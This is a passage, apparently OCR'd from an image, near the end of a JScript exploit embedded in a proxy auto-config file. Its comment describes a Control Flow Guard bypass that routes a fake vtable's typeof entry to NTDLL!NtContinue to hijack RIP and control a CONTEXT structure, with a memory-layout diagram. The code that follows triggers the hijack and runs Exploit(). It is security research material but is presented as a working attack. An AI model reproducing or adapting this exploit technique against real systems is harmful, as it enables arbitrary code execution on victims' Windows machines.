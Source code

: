         Initially RDI holds the pointer to the mutable VAR. Its object pointer is being loaded from +8, and then
        RDI holds the pointer to the fake Object, which is dereferenced into RAX to obtain the vtable pointer.
        Offset 0x138 holds the typeof method pointer within the vtable, which is subsequently passed to CFG
        for validation.

        Since the fake vtable holds the address of NTDLL.DLL!NtContine in place of its typeof method (and this
        address is whitelisted by CFG) the security check will succeed and we will end up with an indirect branch
        instruction (CALL RBX) whch will execute the RIP hijack.

        Most notably, since a class method will always be passed its "this" pointer as its first parameter (which
        in x64 will be held in RCX) we not only end up with a RIP hijack but also control of the RCX register.
        Control of this register allows us to control the first parameter to NTDLL.DLL!NtContinue (in this case
        a CONTEXT structure pointer) which conveniently will hold a pointer to our fake object, the contents of
        which we control. Thus the fake object itself will be interpreted as CONTEXT struct we may control.

        Malicious VVAL property name
        ------------------
        | VAR.Type       | <-- Mutable var
        |----------------|   |
        | VAR.ObjPtr     | <------ Referencing fake object appended to itself in the VVAL property name
        |----------------|     |
        | VAR.Type       |     |-- Not a real VAR (its Type is skipped and never referenced), just a 0 field.
        |----------------|     |
        | Fake vtable ptr| <---|-- Fake object begins here. RCX and RDI point here
        |----------------|
        | VAR.NextPtr    | <-- Unreferenced, a side-effect of using a VAR struct to initialize the fake object.
        |----------------|
        | CONTEXT        | <-- Notably the first 16 bytes (2 QWORDs) of this struct will be confused with the fake vtable ptr and VAR.NextPtr fields. These fields represent the P1Home and P2Home registers and its fine if they are initialized to 0.
        |________________|

        */

        ReClaimNameList(0, RipHijackPropName);
        var TotalTime = (new Date().getTime() - ScriptTimeStart);
        DebugLog("TIME ... total time elapsed: " + TotalTime.toString(10) + " read count: " + ReadCount.toString(10));
        typeof MutableVar;
    }

    function FindProxyForURL(url, host){
        return "DIRECT";
    }

    Exploit();